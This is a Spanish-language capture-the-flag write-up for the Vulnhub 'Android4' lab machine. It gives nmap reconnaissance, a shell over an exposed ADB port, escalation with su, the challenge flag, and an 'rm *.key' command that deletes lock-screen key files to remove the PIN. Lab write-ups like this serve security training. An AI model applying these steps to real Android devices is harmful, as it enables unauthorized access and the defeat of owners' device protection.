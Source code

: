 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=300&height=80&lines=ANDROID_4"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/android4-1,233/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/179633430-0029a8f7-b789-49a2-80be-12f04ed9357f.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/179633673-54c343f6-fe1c-49bd-a070-a2ccdb4cf488.png)

IP host: `192.168.25.139`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.139
```
![3](https://user-images.githubusercontent.com/75953873/179633819-76e89cc3-3e47-4f1c-9d4c-bcd153f748b9.png)

Puertos abiertos: [8080,22000,5555]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 8080,22000,5555 -A 192.168.25.139
```
![4](https://user-images.githubusercontent.com/75953873/179634411-2134bb33-54f8-45c7-a0be-b6dbb9824153.png)

Servidor web (puerto **8080**): `http://192.168.25.139:8080`

![5](https://user-images.githubusercontent.com/75953873/179634788-bc82e682-c166-43c9-bd67-366001b12fd5.png)

O.S: `Android` **--> Kernel Linux**

Puerto **5555**: Es un puerto utilizado por ADB (Puente de Depuración de Android) que se utiliza para conectarse a teléfonos móviles a través de TCP y ejecutar comandos.

- *Paso 4:* Conectarse al dispositivo vía ADB y capturar la flag.

Descargar ADB:
```
apt-get install -y adb
```

Crear conexión con el dispositivo y obtener una shell:
```
adb connect 192.168.25.139:5555
adb shell
```
![6](https://user-images.githubusercontent.com/75953873/179636318-eb4f31c6-3c25-4881-aec8-802eb3052785.png)

Acceder a superusuario (**root**) y capturar la flag del directorio `/data/root`:
```
su
cd /data/root
cat flag.txt
```
![7](https://user-images.githubusercontent.com/75953873/179636561-0b059ea4-2dd0-4c97-bc47-0ea74cfd023b.png)

**FLAG:** ANDROID{u_GOT_root_buddy}


Eliminar los archivos claves del directorio del sistema para desactivar la protección (PIN):
```
su
cd /data/system
rm *.key
```
![8](https://user-images.githubusercontent.com/75953873/179638008-1d1c29c4-ef57-46e4-acae-ab7e68e1b560.png)

![9](https://user-images.githubusercontent.com/75953873/179639178-5a6c14a9-a48e-4e01-ad24-6416878c6429.png)
